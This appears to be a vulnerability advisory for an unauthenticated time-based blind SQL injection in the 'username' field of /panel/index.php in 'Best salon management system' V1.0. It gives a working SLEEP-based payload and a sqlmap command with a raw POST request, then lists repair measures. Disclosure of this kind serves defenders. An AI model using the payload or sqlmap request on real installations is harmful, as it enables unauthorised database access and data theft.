


# Best salon management system V1.0 /panel/index.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Best salon management system

## Vendor Homepage

- [Best salon management system project in php | SourceCodester](https://www.sourcecodester.com/php/18171/best-salon-management-system-project-php.html)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- K1nako

## VERSION(S)

- V1.0

## Software Link

- [Best salon management system project in php | SourceCodester](https://www.sourcecodester.com/php/18171/best-salon-management-system-project-php.html)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the '/panel/index.php' file of the 'Best salon management system' project. The reason for this issue is that attackers inject malicious code from the parameter "username" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Best salon management system", discovered a critical SQL injection vulnerability in the "/panel/index.php" file. This vulnerability stems from insufficient user input validation of the 'username' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind

## Vulnerability location:

- 'username' parameter

## Payload:

```
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=123' AND (SELECT 9461 FROM (SELECT(SLEEP(5)))mRgQ)-- ZFYt&password=123&login=Sign In
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
```



## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
POST /panel/index.php HTTP/1.1
Host: 10.151.166.165:8887
Content-Length: 39
Cache-Control: max-age=0
Origin: http://10.151.166.165:8887
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.151.166.165:8887/panel/index.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=0elfvcncpp41ijvq75rr3hp5p8
Connection: keep-alive

username=123*&password=123&login=Sign+In
```

# Attack results



# Suggested repair


1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.